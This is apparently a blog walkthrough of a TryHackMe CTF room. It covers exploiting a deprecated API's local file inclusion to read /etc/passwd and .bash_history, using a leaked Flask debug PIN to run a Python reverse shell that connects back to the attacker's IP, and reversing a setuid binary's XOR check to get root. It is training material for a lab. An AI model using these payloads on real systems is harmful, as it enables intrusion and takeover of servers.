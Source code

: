 ```yaml
---
layout: post
title: "Tryhackme BookStore Walkthrough - API & Reverse Engineering"
date: 2025-09-03
categories: [ctf, tryhackme, walkthrough]
image: https://miro.medium.com/v2/resize:fit:720/format:webp/1*mZunNj45WXui4CSwhm-Buw.jpeg
permalink: /blog/BookStore-Tryhackme
locked: false
---
```


<div style="border-left: 4px solid #00d4aa; background: #0f172a; padding: 20px; margin: 20px 0; border-radius: 0 8px 8px 0;">
  <div style="display: flex; justify-content: center; margin-bottom: 15px;">
    <img src="https://assets.tryhackme.com/img/favicon.png" width="48" height="48" alt="TryHackMe" style="border: none; outline: none; box-shadow: none;">
  </div>
  
  <div style="display: flex; align-items: center; gap: 15px; margin-bottom: 15px; justify-content: center;">
    <h3 style="margin: 0; color: #f1f5f9;">Bookstore</h3>
    <div style="display: flex; align-items: center; gap: 5px;">
      <span style="color: #ff8c00; font-weight: bold;">▁▃▅</span>
      <span style="background: #ff8c00; color: white; padding: 3px 8px; border-radius: 12px; font-size: 12px; font-weight: bold;">MEDIUM</span>
    </div>
  </div>
  
  <p style="margin: 10px 0; color: #cbd5e1;">
    <strong>Objective:</strong> understand how a vulnerable API can be exploited
  </p>
  
  <div style="display: flex; gap: 20px; margin-top: 15px;">
    <span style="color: white; padding: 8px 16px; font-weight: bold;">Web Exploitation</span>
    <a href="https://tryhackme.com/room/bookstoreoc" target="_blank" style="background: #dc2626; color: white; padding: 8px 16px; border-radius: 6px; text-decoration: none; font-weight: bold;">🔗 Start Challenge →</a>
  </div>
</div>

---

# Part 1

I accessed the website using its IP address without specifying any port. Once we accessed the website, we found something like this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dZz6r0GpIlvLJyOO_NtjrA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

I interacted with every possible endpoint on this site. There were different interaction points, such as home.html and books.html, but login.html didn’t do anything.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*RL1nSp0JsykNSXR2OVc45w.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ZK5RpX4w0e9vyi9ECAhSXA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Once I’ve run through every request, I fire up Postman to check what’s really going on under the hood

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ZSQjBSilIAyhEHP3tw1imw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*7zWbtkQ_rFrG6e5Y6UvZEA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Burp Suite showed us all the requests. One stood out: `/assets/js/api.js`, which dropped the following:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*RzJ3vGZrJ4OMpIhyBd2ZSQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*5vWo0kXEvRSWgY9NO2Fd4Q.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

We can send a request like this: 

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*qBPoafCs51hbE7NgEVHTFQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

But based on api.js, the most important part is this specific comment. `//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.`

Let’s change `/api/v2/resources/books?id=1` to `/api/v1/resources/books?id=1`

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*UQ6kmLhYWDTsYiYdGxGq-A.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

We didn’t get any errors, which means the previous version of this API is still present, and we can access its vulnerability.

Based on the response from `/api/v2/resources/books/random4`, I tried using different parameters, but none of them returned `/etc/passwd` , `author, id, published ,show`


I brute-forced new parameters but kept the value set to `../../../etc/passwd`

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*L_r725GgPuEMnCaPR6km7Q.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Bingo, we found an endpoint called `show`.

<div class="code-block-container">
  <span class="code-lang-tag">/etc/passwd</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
</code></pre>
</div>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*kuHPsCmNFv-3ovS0DWQMSA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

From the `/etc/passwd` response, we found a user sid, which could allow us to read the flag. Based on the challenge question, let’s use `/home/sid/user.txt`

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ci6allc3uiPmwu41l8iXSw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

# Part 2

At this stage, I began enumerating further, starting with SSH `../../../../home/sid/.ssh/id_rsa`, But I got a 500 Internal Server Error, which I believe is similar to a file not found

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ijcpwpwiJ8humqJs0VtAcg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Then I made a request to `.bash_history`, and it returned some juicy data:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*m_LR7g9smdG9H2ex6pkjVQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

It returned a debug pin belonging to the Flask localhost console. Let’s make a request to this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*GRnY0Eg9h8UQDGISAJjFgA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Using the pin from `.bash_history`, we accessed the Flask debug console. Since it allows Python execution, we leveraged it to spawn a reverse shell. [Understanding Reverse Shells – Invicti](https://www.invicti.com/blog/web-security/understanding-reverse-shells/)

<div class="code-block-container">
  <span class="code-lang-tag">Python Debug</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
import os
os.system("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"MY-IP",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'")
</code></pre>
</div>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ExFkZoJzL-edrtKm7mTDxQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

While searching for the root flag, we found a setuid binary called `try-harder`. Analyzing it with strings revealed it prompts for a password, and on success, spawns `/bin/bash -p` giving us root access.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*1X_NvLYdMo22DM4BNXCurg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ChcQNzQ9y6FvU2W5O5_qKw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

I downloaded the file for local analysis in Ghidra, which revealed the following code:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*xSMPDrIP8QUslHRDkxK5fw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<div class="code-block-container">
  <span class="code-lang-tag">Ghidra</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
</code></pre>
</div>

<div class="code-block-container">
  <span class="code-lang-tag">Ghidra</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
</code></pre>
</div>

The program takes your input `(local_1c)` and XORs it with two constants: `0x1116` and `local_18 (0x5db3)`.

If the result equals `0x5dcd21f4`, you win.

<div class="code-block-container">
  <span class="code-lang-tag">Ghidra</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
$ python 
Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> magic = 0x5dcd21f4 ^ 0x1116 ^ 0x5db3
>>> print(hex(magic), magic)
0x5dcd6d51 1573743953
</code></pre>
</div>

`0x5dcd21f4` -> the target value (what the program checks against).

^ `0x1116` ^ `0x5db3` -> you XOR it back with the constants used in the C code.

XOR is its own inverse, so this neatly recovers the original user_input.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*PNSAqUxRZMvYRdwM9MCivg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

This gave us a root shell